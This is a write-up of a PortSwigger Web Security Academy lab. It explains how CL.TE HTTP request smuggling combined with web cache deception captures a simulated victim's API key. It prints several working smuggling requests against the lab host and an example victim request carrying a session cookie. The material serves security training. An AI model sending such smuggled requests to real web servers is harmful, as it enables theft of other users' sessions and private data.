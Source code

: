 # Exploiting HTTP request smuggling to perform web cache deception

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception), you'll learn: Exploiting HTTP request smuggling to perform web cache deception! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is caching static resources.

To solve the lab, perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache. Then retrieve the victim user's API key from the cache and submit it as the lab solution. You will need to wait for 30 seconds from accessing the lab before attempting to trick the victim into caching their API key.

You can log in to your own account using the following credentials: `wiener:peter`

> Note:
>  
> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224200639.png)

In here, we can try to identify the web application is vulnerable to HTTP request smuggling.

First, we need to determine which type of HTTP request smuggling. Like CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or TE.CL (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

- CL.TE:

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224200927.png)

**Normal request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224200951.png)

As you can see, our normal request's response returns a 404 status code, which means the web application is vulnerable to CL.TE HTTP request smuggling.

Then, we can move on to the next bigger exploit chain.

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201213.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201225.png)

As you can see, both `/resources/js/tracking.js` and `/resources/images/blog.svg` has implemented web cache.

That being said, we can try to **poison those cache later**.

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201353.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201410.png)

After we logged in, we can view our API key.

Armed with above information, we can try to **leverage HTTP request smuggling to perform web cache deception** in order to view victim's API key!

> **What is the difference between web cache poisoning and web cache deception?**
> 
> - In **web cache poisoning**, the attacker causes the application to store some **malicious content** in the cache, and **this content is served from the cache to other application users**.
> - In **web cache deception**, the attacker causes the application to store some **sensitive content** belonging to another user in the cache, and **the attacker then retrieves this content from the cache.**

**To do so, we can first smuggle a request that returns some sensitive user-specific content:**
```http
POST / HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224201813.png)

The next request from another user that is forwarded to the back-end server will be appended to the smuggled request, including session cookies and other headers. For example:

```http
GET /my-account HTTP/1.1
X-Foo: xGET /resources/images/blog.svg HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
```

The back-end server responds to this request in the normal way. The URL in the request is for the user's profile and the request is processed in the context of the victim user's session. The front-end server caches this response against what it believes is the URL in the second request, which is `/resources/images/blog.svg`:

```http
GET /resources/images/blog.svg HTTP/1.1
Host: 0a7b0027039cfac0c0ef869700c10027.web-security-academy.net

HTTP/1.1 200 Ok
[...]
<div>Your API Key is: [...]</div>
[...]
```

We can then visits the static URL and receives the sensitive content that is returned from the cache.

An important caveat here is that **we doesn't know the URL against which the sensitive content will be cached**, since this will be whatever URL the victim user happened to be requesting when the smuggled request took effect. **We may need to fetch a large number of static URLs to discover the captured content**.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224202507.png)

We found `administrator`'s API key in `/resources/js/tracking.js`!

Let's submit that!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224202536.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-17/images/Pasted%20image%2020230224202541.png)

# What we've learned:

1. Exploiting HTTP request smuggling to perform web cache deception